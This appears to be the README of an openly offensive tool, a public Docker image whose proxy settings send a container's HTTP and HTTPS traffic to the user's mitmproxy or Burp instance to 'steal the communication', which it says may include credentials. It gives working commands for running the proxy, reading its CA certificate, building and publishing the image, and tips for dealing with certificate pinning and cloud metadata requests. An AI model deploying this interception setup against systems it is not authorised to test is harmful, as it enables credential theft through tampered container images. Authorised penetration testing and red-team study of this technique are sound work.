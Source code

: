 # Docker MitM

This is a container prepared with env variables to **proxy HTTP traffic from the container to your burp proxy** to steal the communication occurring inside of it (potentially credentials).

This is useful in environments where:

1. You can configure the Docker image to use
2. Some interesting connections are created from the contair and you want to check what

This Docker image is public in **docker.io/carlospolop/docker-mitm:v4**

### Start MitM proxy

```bash
# Install proxy
pip3 install mitmproxy

# Get CA certificate
cat ~/.mitmproxy/mitmproxy-ca-cert.pem

# Start listening
mitmproxy --listen-port 8000 --set block_global=false [--allow-hosts "github.com"] [--ignore-hosts "169.254.169.254|169.254.170.2|amazonaws.com"]
```

### Create Docker image

**REMEMBER TO SET THE MITMPROXY CERTIFICATE CHANGE THE VALUES OF `https_proxy` and `http_proxy` in the `Dockerfile` with the hostname and port where the proxy will be listening**

**Important**: It's possible that the binary you are doing a MitM has certificate pinning. This will probably break the binary and won't allow you to continue capturing other requests. In that case use the params `--allow-hosts` (if you know which host you want to attack) or `--ignore-hosts` to ignore the one giving problems.

**Important2**: If are using this in cloud, it might be possible that HTTP requests are being done to the metadata service. In that case you potentially DON'T want to set the `http_proxy` environment variable, to avoid doing a MitM to those requests (or maybe you could just use `--ignore-hosts`).



```bash
# Build
docker build -t docker-mitm . 

# Just running apt-get update you should start capturing traffic
docker run -it docker-mitm apt-get update
# Or accessing github.com via https
docker run -it docker-mitm curl https://github.com

# Upload to docker hub 
docker login
docker tag docker-mitm carlospolop/docker-mitm:vX # Change X
docker push carlospolop/docker-mitm:vX # Change X
```
